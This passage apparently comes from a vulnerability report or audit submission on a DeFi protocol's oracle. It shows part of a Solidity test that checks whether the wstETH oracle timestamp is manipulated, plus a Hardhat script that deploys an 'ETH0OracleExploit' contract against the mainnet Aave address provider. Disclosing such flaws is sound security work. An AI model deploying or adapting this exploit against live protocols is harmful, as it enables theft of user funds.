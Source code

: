 ```solidity
            amount,
            "0x",
            0
        );
    }

    // Test functions to verify oracle behavior
    function testOracleTimestamp() external view returns (uint256) {
        // Get price and timestamp from oracle
        (
            uint80 roundId,
            int256 answer,
            uint256 startedAt,
            uint256 updatedAt,
            uint80 answeredInRound
        ) = ILidoProxyWstETHPriceFeed(daoCollateral.oracle()).latestRoundData();

        // Verify timestamp is always block.timestamp
        require(updatedAt == block.timestamp, "Oracle timestamp not manipulated");
        return updatedAt;
    }
}

// Helper interface for testing
interface ILidoProxyWstETHPriceFeed {
    function latestRoundData() external view returns (
        uint80 roundId,
        int256 answer,
        uint256 startedAt,
        uint256 updatedAt,
        uint80 answeredInRound
    );
}
```

To test: 

1) Deploy the exploit contract code is pasted below:

```solidity
// Deploy script
async function main() {
    const AAVE_ADDRESS_PROVIDER = "0x2f39d218133AFaB8F2B819B1066c7E434Ad94E9e"; // Mainnet
    
    const ExploitFactory = await ethers.getContractFactory("ETH0OracleExploit");
    const exploit = await ExploitFactory.deploy(AAVE_ADDRESS_PROVIDER);
    await exploit.deployed();
    
    console.log("Exploit deployed to:", exploit.address);
}

```
